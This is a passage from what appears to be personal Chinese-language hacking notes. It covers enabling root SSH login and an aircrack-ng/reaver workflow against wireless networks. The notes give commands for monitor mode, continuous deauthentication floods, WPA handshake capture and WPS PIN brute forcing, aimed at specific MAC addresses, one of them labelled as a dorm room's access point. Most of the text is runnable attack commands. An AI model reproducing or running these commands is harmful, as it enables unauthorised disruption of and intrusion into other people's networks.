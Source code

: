 只能攻击http  
对edge好像也没什么用


# 关于ssh
`apt-get install openssh-server`

`service ssh start`

配置端口:  
`vim /etc/ssh/sshd_config`  

允许root用户远程登录  
将port 前面的#删除,也可以更改其它端口


# 关于WiFi抓包：

启动监听模式  
`airmon-ng start wlan0`

锁定目标信道  
`airodump-ng --bssid 02:C1:1A:33:26:B8 -c 13 wlan0mon`

发送管理帧（代码示例）  
`aireplay-ng --deauth 0 -a 38:68:BE:D1:1D:11 wlan0mon`

--deauth 0：持续发送解除认证帧  
-a：指定目标AP的BSSID

**重启网络**  
`service NetworkManager restart`  
你会需要的

**scan**  
`airodump-ng wlan0mon`

MAC地址大公开  
30:66:D0:3E:D0:C8    8  
02:C1:1A:33:26:B8    13  
38:68:BE:D1:1D:11    11    438宿舍 

**`airodump-ng --bssid 38:68:BE:D1:1D:11 -c 11 wlan0mon -w pack1`**  
解释：-w表示保存握手包，“pack1”为包的名称，可随意设置，最终的文件为pack1-01.cap，-c 11表示指定频道11，wlan0mon指定网卡设备

切换信道  
`iwconfig wlan0mon channel 1`

用aireplay来给AP发送断开包  
`aireplay-ng -0 0 -a 30:66:D0:21:DC:44 wlan0mon`

查看wifi连接的设备  
`airodump-ng --bssid 38:68:BE:D1:1D:11 -c 11 wlan0mon`

reaver暴力破解wpa的pin *没用*  
指南： https://www.cnblogs.com/xs-xs/p/16329048.html  
`reaver -i wlan0mon -b 30:66:D0:3E:D0:C8 -c 8 -vv -N -S`
